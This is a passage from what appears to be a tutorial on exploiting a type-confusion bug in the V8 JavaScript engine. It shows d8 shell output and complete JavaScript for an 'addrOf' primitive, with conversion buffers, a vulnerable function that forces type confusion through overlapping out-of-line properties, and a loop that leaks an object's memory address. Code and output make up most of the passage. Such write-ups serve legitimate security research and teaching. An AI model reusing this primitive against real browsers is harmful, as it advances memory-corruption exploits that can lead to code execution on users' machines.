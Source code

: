 Once done, we can convert our `floatView` buffer to a 64-bit unsigned integer via the [BigUint64Array](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/BigUint64Array), which should give us the byte representation of our object's address.

```js
d8> let uint64View = new BigUint64Array(floatView.buffer);
d8> uint64View[0]
2092429321065n
```

From here's it's as simple as using the [toString](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Number/toString) function with base 16 to convert the bytes to hexadecimal, which should give us a valid address.

```js
d8> uint64View[0].toString(16)
"1e72e81a369"
```

As shown, once we convert our bytes to hex, we see that the value leaked by our `addrOf` primitive matches our object's address of of `000001E72E81A369`! 

We now have a working `addrOf` read primitive! 

From here, there is just one slight modification that needs to be made for our `addrOf` function. We have to make sure we subtract `1n` from the `BigUint64Array` to account for pointer tagging if we want to use this address further in the script.

Our `addrOf` function with its conversion buffers will now look like so:

```js
// Conversion Buffers
let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
    floatView[0] = this;
    return uint64View[0];
};

...

function addrOf() {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Trigger our type-confusion by accessing an out-of-bound property
        // This will load p1 from our object thinking it's a Double, but instead
        // due to overlap, it will load p2 which is an Object
      return obj.p${p1}.x;
    }
  `);

    let obj = {z: 1234};
    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj};

    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj(pValues));
        if (res != 13.37) {
            // Subtract 1n from address due to pointer tagging.
            return res.toBigInt() - 1n;
        }
    }
    throw "[!] AddrOf Primitive Failed"
}
```